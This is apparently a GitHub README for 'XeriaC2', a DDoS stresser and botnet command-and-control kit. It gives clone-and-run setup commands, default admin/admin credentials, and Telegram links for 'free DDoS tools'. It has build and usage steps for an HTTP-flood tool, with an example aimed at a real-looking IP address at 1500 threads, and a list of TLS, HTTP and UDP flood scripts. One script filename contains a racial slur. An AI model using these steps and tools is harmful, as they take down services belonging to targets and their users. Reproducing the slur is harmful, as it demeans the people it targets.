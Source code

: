 ## Setup/Install
Cloud Shell : https://shell.cloud.google.com/?show=ide,terminal
git clone https://github.com/levanderdev/XeriaC2
cd XeriaC2
node auto_install_modules.js 404.js HTTP-NIGGA,js BYPASS.js holdv2.js Tlsv1.js
cd XeriaC2

## File Stresser/DDoS/Botnet/Api
you can get the this free !!! Open file the install the zip

## Telegram/Chat/Bug</br>
Free Tools DDoS/Methods : https://t.me/freetoolsddos

Telegram : https://t.me/perkicauc2

Chat : https://t.me/xeriac2chat

Bug? : https://t.me/perkicau

## ADMIN/PASSWORD</br>
Username : admin

Password : admin

## Wanna Update Method?</br> 
remove file XeriaC2
-----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500


## Methods : 

node BYPASS.js

node Tlsv1.js

go run STRONG-CFB.go

node HTTP-RAW.js

node http-get.js

node tls.js

node tlsv2.js

python udp.py

python UDP.py

./http

The Methods Js,Golang,Python

PLEASE STAR WITH YOU SUPPORT ME


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570

